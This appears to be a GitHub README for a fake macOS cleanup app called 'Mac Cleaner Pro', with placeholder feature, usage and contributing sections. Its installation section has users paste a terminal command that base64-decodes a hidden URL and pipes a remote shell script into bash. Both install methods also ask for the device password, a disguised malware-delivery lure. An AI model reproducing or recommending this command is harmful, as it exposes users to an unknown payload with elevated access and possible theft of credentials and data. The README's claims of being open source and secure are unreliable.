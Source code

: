 # Mac Cleaner Pro - Optimize Your macOS Experience

![img](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQThZJBt33I6NlW7wPi6vq_m7SW9NlB3DLAzw&s)

Mac Cleaner is a lightweight and powerful tool designed to keep your Mac running smoothly. It helps you free up disk space, remove unnecessary files, and optimize system performance with an intuitive interface.

---

## ✨ Features

- **Junk File Cleanup**: Safely remove cache, logs, and temporary files.
- **Duplicate Finder**: Locate and delete duplicate files to save space.
- **App Uninstaller**: Completely remove apps and their associated files.
- **Disk Analyzer**: Visualize disk usage to identify large files.
- **Privacy Protection**: Clear browsing data and protect your privacy.
- **Fast & Secure**: Optimized for macOS with minimal resource usage.

---

## 📥 Download

Get the latest version of Mac Cleaner for macOS:

[![Download Mac Cleaner](https://img.shields.io/badge/Download-Mac%20Cleaner-brightgreen?style=for-the-badge&logo=apple)](https://github.com/username/MacCleaner/releases/latest)

*Requires macOS 10.15 or later.*

---

## 🚀 Installation

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🛠️ Usage

1. **Scan Your Mac**: Open Mac Cleaner and click "Scan" to analyze your system.
2. **Review Results**: View detailed reports on junk files, duplicates, and more.
3. **Clean Up**: Select items to remove and click "Clean" to free up space.
4. **Customize Settings**: Adjust preferences for scheduled scans or specific file types.

Check the [User Guide](https://github.com/username/MacCleaner/wiki/User-Guide) for detailed instructions and tips!

---

## ⚙️ Configuration

- Open Mac Cleaner and navigate to **Preferences** from the menu bar.
- Customize scan settings, file types, or schedule automatic cleanups.
- Enable privacy features to manage cookies and browsing data.

---

## 🌟 Why Mac Cleaner?

- **User-Friendly**: Simple interface for beginners and advanced users.
- **Free & Open Source**: No hidden costs, built for the community.
- **Regular Updates**: Stay optimized with frequent improvements.

---

## 🤝 Contributing

We welcome contributions! To get started:

1. Fork the repository.
2. Check out the [Contributing Guide](CONTRIBUTING.md) for setup instructions.
3. Submit a pull request with your changes.

Report issues or suggest features via the [Issues](https://github.com/username/MacCleaner/issues) tab.

---

## 📜 License

Mac Cleaner is licensed under the [MIT License](LICENSE).

---

## 🙌 Acknowledgments

- Inspired by tools like CCleaner and CleanMyMac.
- Thanks to all contributors and the macOS community!

---

*Have questions? Reach out via [Issues](https://github.com/username/MacCleaner/issues) or join our [Discussions](https://github.com/username/MacCleaner/discussions)!*
